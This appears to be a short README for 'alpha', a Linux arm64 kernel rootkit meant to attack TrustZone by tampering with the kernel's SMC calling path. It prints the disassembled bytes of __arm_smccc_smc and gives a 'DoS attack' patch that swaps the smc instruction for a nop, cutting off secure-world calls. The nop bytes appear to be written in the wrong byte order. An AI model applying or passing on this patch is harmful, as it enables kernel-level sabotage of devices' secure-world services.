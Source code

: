 # alpha
alpha is a simple kernel rootkit (Linux arm64) to attack the TrustZone. He erases the smc_handle function of the kernel to hook calls to the SMC instruction. It has been tested with OP-TEE but should work with any other TrustZone implementation.

### __arm_smccc_smc (include/linux/arm-smccc.h)   
   
```
03 00 00 d4     smc   #0x0   
e4 03 40 f9     ldr   x4, [sp]   
80 04 00 a9     stp   x0, x1, [x4]   
82 0c 01 a9     stp   x2, x3, [x4,#16]   
e4 07 40 f9     ldr   x4, [sp,#8]   
a4 00 00 b4     cbz   x4, 0x00000028   
89 00 40 f9     ldr   x9, [x4]   
3f 05 00 f1     cmp   x9, #0x1   
41 00 00 54     b.ne  0x00000028   
86 04 00 f9     str   x6, [x4,#8]   
c0 03 5f d6     ret
```   
   
### DoS attack   
   
Replace the first instruction of the function:   
```   
03 00 00 d4     smc   #0x0   
```   

With the following instruction:   
```   
d5 03 20 1f     nop      
```   

### More coming...
